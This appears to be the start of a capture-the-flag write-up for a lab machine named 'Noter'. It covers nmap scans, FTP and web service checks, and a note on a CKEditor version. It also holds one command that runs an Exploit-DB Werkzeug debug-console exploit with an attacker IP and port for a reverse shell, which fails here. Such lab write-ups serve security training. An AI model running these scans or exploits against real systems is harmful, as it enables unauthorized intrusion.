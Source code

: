 
# USER

### Step 1
**nmap:**
```bash
➜  noter nmap -p- -Pn 10.10.11.160 -v
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
5000/tcp open  upnp


➜  noter nmap -Pn -n -sCV -p21,22,5000 10.10.11.160
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


➜  noter sudo nmap -sU --top-port=50 --open 10.10.11.160
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
```

FTP is always fun, however from nmap it doesn't seem like anonymous logins are enabled. Checking this manually confirms that's the case.

Werkzeug has a known code execution if debug is enabled, quickly check with script in Kali.
```bash
➜  Downloads python2 /usr/share/exploitdb/exploits/multiple/remote/43905.py 10.10.11.160 5000 10.10.14.26 4488
[-] Debug is not enabled
```

Browse port 5000 and we are met with a very simple page.
![[Pasted image 20220519104910.png]]

Trying bacis authentication bypasses doesn't give anything, so instead we create an account with credentials `admin:admin`. 

When posting a new note, pressing the `?` icon we find the information `CKEditor 4.6.2 (revision 20af917)`.  Googling around it seems to be vulnerable to XSS, although the post seems to be done with a CDN, so not local and should not be seen as a attack vector.

```bash
    <script src="//cdn.ckeditor.com/4.6.2/basic/ckeditor.js"></script>
    <script type="text/javascript">
      CKEDITOR.replace('editor')
    </script>
```
